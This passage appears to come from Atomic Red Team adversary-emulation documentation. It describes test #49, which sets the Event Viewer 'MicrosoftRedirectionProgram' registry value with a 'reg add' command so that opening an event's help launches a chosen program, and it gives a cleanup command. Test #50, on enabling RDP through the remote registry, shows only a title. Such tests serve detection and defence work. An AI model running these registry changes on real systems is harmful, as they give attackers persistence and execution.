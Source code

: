 

<br/>
<br/>

## Atomic Test #49 - Event Viewer Registry Modification - Redirection Program
Modify event viewer registry values to alter the behavior of the online help redirection. Upon opening an event in event viewer and attempting to view the help page for the event, it will execute the program defined in the redirection program registry entry.

**Supported Platforms:** Windows


**auto_generated_guid:** 81483501-b8a5-4225-8b32-52128e2f69db





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| redirection_program | Path of the program to execute upon opening the event help | path | C:&#92;windows&#92;system32&#92;notepad.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionProgram /t REG_EXPAND_SZ /d "#{redirection_program}" /f
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionProgram /t REG_EXPAND_SZ /f
```





<br/>
<br/>

## Atomic Test #50 - Enabling Remote Desktop Protocol via Remote Registry
Enabling RDP through remote registry.

**Supported Platforms:** Windows


**auto_generated_guid:** e3ad8e83-3089-49ff-817f-e52f8c948090




